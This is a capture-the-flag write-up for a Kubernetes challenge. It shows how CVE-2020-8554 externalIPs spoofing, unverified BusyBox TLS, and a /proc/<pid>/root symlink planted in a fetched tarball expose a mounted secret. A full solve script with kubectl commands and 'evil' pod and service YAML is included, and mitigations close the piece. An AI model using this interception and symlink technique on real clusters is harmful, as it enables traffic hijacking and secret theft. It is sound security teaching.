

## Supercluster Writeup
Challenge Author: Diff-fusion  
Challenge difficulty: Medium  
Challenge Files: [here](https://morrisbe.de/challenge_files/supercluster.zip)  
Challenge description:  
```
I created a website that always shows the latest information about superclusters. To show this stellar information to everyone, the website is deployed in a kubernetes cluster. But currently there are still some bugs.

I invite you as a beta tester to find these bugs for me. You get restricted access to my cluster. Different namespaces and security policies are in place to prevent you from reading my secrets.

To open the website connect with the ssh command and then open http://localhost:8080/ in your browser.
```
### Table of Contents

### Summary
This is a [Kubernetes](https://kubernetes.io/) challenge where, inside a namespace we cannot access directly, a website about [superclusters](https://en.wikipedia.org/wiki/Supercluster) is hosted. When starting, we SSH into a secondary namespace and visit the supercluster website on localhost. The goal of this challenge is to retrieve the flag mounted in one of the containers in the "flag" namespace.

Solving the challenge requires using three primary vulnerabilities and (mis-)configurations to our advantage:
1. We can view any static file served inside the `/www` directory on the supercluster website. If a symbolic link is inside this directory, we could view arbitrary files.
2. A cron-job resolves a remote .tar.gz file to update the content in `/www` every minute. Due to [CVE-2020-8554](https://nvd.nist.gov/vuln/detail/cve-2020-8554) we can spoof this remote .tar.gz file by imitating `https://static.cscg.live`. 
3. `ShareProcessNamespace: true` allows us to read a container's system runtime information from another container. Abusing this, inside the .tar.gz file, we place a crafted symbolic link to the flag, which the web server resolves to the flag when fetched. 
### Overview
When we connect with the ssh command, we are placed in the "ctf" namespace. No containers are running, and we are limited to our service account `entrypoint`. Additionally, we have access to this website:

We are shown images of superclusters and short descriptions. Clicking one opens a modal with more detailed information. All images and supercluster metadata are stored in the `/www` directory and are statically served. We'll get back to this website later.

Back to Kubernetes: In theory, being in a different namespace completely isolates us from the flag namespace. We can't escalate or misuse privileges unless our permissions are too lenient. 

However, our service account only has the following cluster-wide privileges:
```
...
resources: ["namespace", "roles", "clusterroles", "rolebindings", "clusterrolebindings"]
verbs: ["get", "list", "watch"]
```
These privileges help us, but don't give us modifying power of the flag namespace, they solely allow us to "get", "list", and "watch" the named resources.

Since the flag namespace is where the flag is stored, we are stuck...

Let's keep looking at what we are working with: Using the above capabilities, we can determine that the following pod is running:
```
# === command ===
ctf:~$ kubectl get pods -n flag
# === output ===
supercluster-h6cnq
```
On this pod, the following (init-)containers and sidecars are running (or ran):
```
# === command ===
ctf:~$ kubectl get pod supercluster-h6cnq -n flag -o jsonpath="{.spec.initContainers[*].name} {.spec.containers[*].name}"
# === output ===
init-www 
supercluster-webserver
supercluster-cron 
```
Of these, **init-www** is a typical init-container so its execution completed. It copied the initial content of the `/html` folder into `/www`.
The **supercluster-webserver** is running our website using:
```
httpd -f -v -h /www -p 8080
```
Which serves the `/www` directory statically. This might become dangerous if (for some weird reason) there were symlinks inside the `/www` directory, allowing us to read any files the symlinks point to on the web-server container (foreshadowing). The web-server container does not mount the `/flag` secret though!

Lastly, **supercluster-cron** is a sidecar that has read/write access to the `/www` directory and has the **flag** mounted. [Sidecars](https://kubernetes.io/docs/concepts/workloads/pods/sidecar-containers/) are secondary containers that run alongside the main application container within the same pod. It runs the following cronjob:
```
* * * * wget -O /tmp/superclusters.tar.gz https://static.cscg.live/ccceaebec38a3e60436789e9108a3a0e9a34532fd8ef2a98b0acf0b686d9a666/superclusters.tar.gz && tar -x --overwrite -C /www -f /tmp/superclusters.tar.gz; rm /tmp/superclusters.tar.gz
```
This cronjob fetches a remote .tar.gz file, unpacks it, and places its content into the `/www` directory.
### Spoofing the IP of Cronjob
With the goal in mind of getting a symlink into the `/www` folder, we have another look at the suspicious cronjob defined in the supercluster-cron container. As previously described, it fetches a .tar.gz file, unpacks it and updates the contents in `/www` with it. 

The URL is as follows: 
```
https://static.cscg.live/ccceaebec38a3e60436789e9108a3a0e9a34532fd8ef2a98b0acf0b686d9a666/superclusters.tar.gz
```
What if we could somehow spoof fetches to this url?

This is where the unfixed [CVE-2020-8554](https://nvd.nist.gov/vuln/detail/cve-2020-8554) comes in.
The CVE description says the following:
```
Kubernetes API server in all versions allows an attacker who is able to create a ClusterIP service and set the spec.externalIPs field, to intercept traffic to that IP address [...]
```

Nice, so let's first figure out what the IP address of `static.cscg.live` is so we can create a service with it's external IPs:
``` 
# === commands ===
ctf:~$ dig static.cscg.live
# === output ===
...
static.cscg.live. 280 IN CNAME ingress.k8s.cscg.live.
ingress.k8s.cscg.live. 280 IN A 147.28.207.143
ingress.k8s.cscg.live. 280 IN A 147.28.207.163
ingress.k8s.cscg.live. 280 IN A 147.75.204.231
...
```
The DNS A records reveal the IPs. 

As a proof-of-concept, let's deploy a ClusterIP service and a lightweight app. For simplicity, we start with **HTTP**, not HTTPS. To do this, we create a new .yaml file and deploy a pod + service that serves "Hello" and has the `externalPs` set to those of `static.cscg.live`. To ensure we stay within our privileges, we need to add the right security context and resource limits (leaving them out throws errors indicating their requirement).
*Note: Don't use pods this way when you actually want to deploy a real service. Pods have different behavior and restart policies than deployments. In this case, it was simply more compact.*
```
cat << 'EOF' > evilpod.yaml
apiVersion: v1
kind: Pod
metadata:
  name: evil-pod
  namespace: ctf
  labels:
    app: evil
spec:
  securityContext:
    runAsNonRoot: true
    runAsUser: 1000 
    seccompProfile:
      type: RuntimeDefault

  containers:
    - name: evil
      image: hashicorp/http-echo:0.2.3
      args:
        - "-text=Hello"
        - "-listen=:8080"
      securityContext:
        allowPrivilegeEscalation: false
        capabilities:
          drop:
            - ALL
      resources:
        requests:
          cpu: "50m"
          memory: "64Mi"
        limits:
          cpu: "100m"
          memory: "100Mi"
---
apiVersion: v1
kind: Service
metadata:
  name: evil-server
  namespace: ctf
spec:
  externalIPs:
    - 147.28.207.143
    - 147.75.204.231
    - 147.28.207.163
  ports:
    - port: 80
      targetPort: 8080
  selector:
    app: evil
EOF
```

We deploy it:
```
# Deploy the pod
# === command ===
ctf:~$ kubectl apply -f evilpod.yaml --force
# === output ===
pod/evil-pod configured
service/evil-server configured
```
Then, for testing purposes, see what this returns to our request:
```
# === commands ===
$ctf: sudo apt update
$ctf: sudo apt install wget
$ctf: wget -qO- http://static.cscg.live
# === output ===
"Hello"
```

So this works. Of course, the issue is that we are not actually working with HTTP, instead, the request is made with HTTPS.

Let's self-sign a certificate with Nginx, and this time make our service actually serve a .tar.gz file 
(The code for this is in the *Full Solve Script (flag)* section to avoid a huge duplicate).

After running wget from the service account, we now get:
```
# === command ===
ctf:~$ wget http://static.cscg.live/
# === Output ===
...
ERROR: ...
Self-signed certificate encountered
...
```

All right, so that did not work. To see what's wrong, let's give ourselves cluster-admin privileges by uncommenting the admin lines in the `minikube-1-permissions.yaml` and try the same request from the supercluster-cron sidecar. This returns the following response:
```
# === command ===
ctf:~$ kubectl exec -c supercluster-cron -n flag -it supercluster-h6cnq -- wget http://static.cscg.live/
# === output ===
... 'supercluster.tar.gz saved'
```
So the service was already doing its thing! The supercluster-cron uses Busybox's `wget`, which does not implement TLS certificate verification. See [this](https://github.com/docker-library/busybox/issues/80) for more information. As a result, we just need to ensure a TLS handshake takes place. The certificate is technically allowed to be bogus. Self-signing is one way to get a quick certificate that gets us through the TLS handshake process, though, so we'll stick with this approach.

So we've managed to write arbitrary content into the `/www` directory of the supercluster-webserver container.
### The Correct Symbolic Link to the Flag
Now, what do we need to insert into the .tar.gz to retrieve the flag? 

The first thing we'd want to try is simply inserting a symlink straight to the `/flag/flag` file. However, the symlink, which points to `/flag/flag` cannot be resolved by the web server, as it never mounts the `/flag` directory.

Back to the drawing board.

The supercluster app has the following configuration:
```
shareProcessNamespace: true
```
With a quick Google search, we find the following information:
"`[If there is a process with] 'PID <id>'. [...] An attacker can infer that [this process's] root filesystem is located at '/proc/<id>/root'"` - [Kaizhe Huang](https://sysdig.com/blog/unveil-processes-falco-cloud/)
This is not a vulnerability per se, as this is the intended behavior of this configuration. However, we can still use this to our advantage. 

Since we know how to access the root directory of any process now, knowing `/flag` is mounted at the root of supercluster-cron, we just need to guess this container's process ID and access `/proc/<id>/root/flag/flag` to access the flag. 

Luckily, we just need to guess the process ID once: the containers are always launched in the same order. Let's not do all that that though, and just use the admin privileges we unlocked previously to determine the PID on our local instance.
```
# === command ===
$ctf: kubectl exec -n flag supercluster-h6cnq -c supercluster-webserver -- ps ax
# === Output ===
PID   USER     TIME  COMMAND
    1 65535     0:00 /pause
   13 root      0:00 crond -f
   19 root      0:00 httpd -f -v -h /www -p 8080
  548 root      0:00 ps ax
```
So the process ID of the cronjob is 13. That gives us everything we need. 
### Full Solve Script (flag)
This is the final solve script. To briefly summarize, it creates a self-signed TLS certificate and produces the .tar.gz files. It then uses ConfigMaps to configure nginx before it launches the required pod and service.
```
openssl req -x509 -nodes -days 365 \
  -newkey rsa:2048 \
  -keyout tls.key -out tls.crt \
  -subj "/CN=static.cscg.live"

kubectl -n ctf create secret tls evil-tls \
  --cert=tls.crt \
  --key=tls.key

mkdir -p ccceaebec38a3e60436789e9108a3a0e9a34532fd8ef2a98b0acf0b686d9a666

#TAR CREATION
ln -sf /proc/13/root/flag/flag link #it was this one
tar -czf superclusters.tar.gz link

mv superclusters.tar.gz ccceaebec38a3e60436789e9108a3a0e9a34532fd8ef2a98b0acf0b686d9a666/

kubectl -n ctf create configmap static-file --from-file=ccceaebec38a3e60436789e9108a3a0e9a34532fd8ef2a98b0acf0b686d9a666

cat << 'EOF' > combined.yaml
apiVersion: v1
kind: ConfigMap
metadata:
  name: nginx-config
  namespace: ctf
data:
  nginx.conf: |
    server {
        listen 8443 ssl;
        server_name static.cscg.live;
        root /usr/share/nginx/html;
        ssl_certificate /etc/nginx/certs/tls.crt;
        ssl_certificate_key /etc/nginx/certs/tls.key;

        location /ccceaebec38a3e60436789e9108a3a0e9a34532fd8ef2a98b0acf0b686d9a666/ {
            alias /usr/share/nginx/html/ccceaebec38a3e60436789e9108a3a0e9a34532fd8ef2a98b0acf0b686d9a666/;
            autoindex on;
        }
    }

---
apiVersion: v1
kind: Pod
metadata:
  name: exploit-pod
  namespace: ctf
  labels:
    app: evil
spec:
  securityContext:
    runAsNonRoot: true
    seccompProfile:
      type: RuntimeDefault
  volumes:
    - name: tls-secret
      secret:
        secretName: evil-tls
    - name: nginx-config
      configMap:
        name: nginx-config
    - name: static-file
      configMap:
        name: static-file
  containers:
    - name: nginx
      image: nginxinc/nginx-unprivileged:alpine
      ports:
        - containerPort: 8443
      volumeMounts:
        - name: tls-secret
          mountPath: /etc/nginx/certs
          readOnly: true
        - name: nginx-config
          mountPath: /etc/nginx/conf.d/default.conf
          subPath: nginx.conf
        - name: static-file
          mountPath: /usr/share/nginx/html/ccceaebec38a3e60436789e9108a3a0e9a34532fd8ef2a98b0acf0b686d9a666
          readOnly: true
      securityContext:
        runAsNonRoot: true
        allowPrivilegeEscalation: false
        capabilities:
          drop:
            - ALL
        seccompProfile:
          type: RuntimeDefault
      resources:
        requests:
          cpu: "50m"
          memory: "64Mi"
        limits:
          cpu: "100m"
          memory: "100Mi"

---
apiVersion: v1
kind: Service
metadata:
  name: spoof-static-cscg-live
  namespace: ctf
spec:
  externalIPs:
    - 147.28.207.143
    - 147.75.204.231
    - 147.28.207.163
  ports:
    - name: https
      port: 443
      targetPort: 8443
  selector:
    app: evil
EOF

kubectl apply -f combined.yaml --force 
```

After about 1 minute we visit:
```
localhost:8080/link
```

We've found the flag!!
```
CSCG{supercluster,just_not_super_secure}
```
### Mitigation
- Don't give a service account like the one we are provided with the privileges to create, update, and delete pods, deployments, services, etc. If you let someone into your house unsupervised (giving them this many privileges inside your cluster), you should not be surprised when they do something malicious.
- Have a ClusterPolicy that ensures no externalPs are configured as described [here](https://nirmata.com/2020/12/09/remediate-new-kubernetes-vulnerability-cve-2020-8554-with-kyverno/).
- Ensure TLS certificates are actually verified
- Don't have a cronjob running that replaces the `/www` content every minute. If you really do need your content to update dynamically, use something like certificate pinning.
- Don't mount secrets in critical places when they are not needed there at all (the flag in this case).
- Keep the default configuration of `ShareProcessNamespace: false`.